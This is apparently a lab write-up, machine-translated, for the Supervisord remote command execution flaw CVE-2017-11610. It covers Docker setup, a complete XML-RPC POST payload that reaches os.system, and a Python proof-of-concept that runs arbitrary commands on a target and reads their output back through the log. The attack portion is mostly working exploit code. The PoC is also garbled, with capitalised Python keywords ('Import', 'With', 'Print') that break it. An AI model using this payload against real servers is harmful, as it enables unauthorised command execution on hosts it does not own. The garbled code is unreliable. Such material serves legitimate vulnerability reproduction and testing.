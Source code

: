 # Supervisord Remote Command Execution Vulnerability (CVE-2017-11610)

Reference link (you can see the first article in detail):

 - https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html
 - https://blogs.securiteam.com/index.php/archives/3348
 - https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b

## Operating environment

```
Docker-compose build
Docker-compose up -d
```

After the environment is launched, visit the http://your-ip:9001` to view the Supervisord page.

## Vulnerability Testing

Execute any command directly:

```
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```

![](01.png)

## About direct echoing POC

@Ricter An idea put forward on Weibo is very effective. It is to write the result of the command execution into the log file, and then call the readLog method that comes with Supervisord to read the log file and read the result.

Write a simple POC: [poc.py](poc.py) and post it directly:

```python
#!/usr/bin/env python3
Import xmlrpc.client
Import sys


Target = sys.argv[1]
Command = sys.argv[2]
With xmlrpc.client.ServerProxy(target) as proxy:
    Old = getattr(proxy, 'supervisor.readLog')(0,0)

    Logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    Getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    Result = getattr(proxy, 'supervisor.readLog')(0,0)

    Print(result[len(old):])
```

Execute with Python3 and get the result: `./poc.py "http://your-ip:9001/RPC2" "command"`:

![](02.png)